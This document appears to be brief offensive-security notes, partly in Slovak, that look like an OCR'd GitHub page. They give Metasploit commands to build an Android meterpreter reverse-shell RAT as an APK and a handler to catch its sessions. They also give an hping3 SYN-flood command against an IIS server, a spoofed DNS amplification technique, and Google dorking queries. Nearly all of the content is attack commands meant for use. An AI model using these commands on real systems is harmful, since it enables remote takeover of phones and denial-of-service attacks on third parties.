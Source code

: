 ```
: payload (RAT)
use  payload/android/meterpreter/reverse_tcp

set  lhost  10.0.0.170

set  lport  3333

generate  -t  raw  -f /var/www/html/x.apk
```

```
use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set lhost 10.0.0.170

set lport 3333

set ExitOnSession false

exploit  -j
```

# DOS

iis vytazeniu driveru tcp, system proces 4:
hping3 10.0.0.40 -p 80 -S --flood


## spoof adresy
posleme napr. 50B dotaz na DNS server, odpoveď je 80x väčšia, môžeme spoofnuť niekoho ip adresu aby odpoveď posielali tam

```
ifconfig lo:1 5.6.7.8
dig -b 5.6.7.8 +bufsize=8192 +notcp +dnssec ANY cz.
```


# Google hacking

exploit-db.com:
GHDB

príklad parametrov
```
site:
inurl:archive
filetype:sql;rdp;docx
intitle:nadpis
intext:login
```

inurl:/iisstart.htm intitle:"IIS7"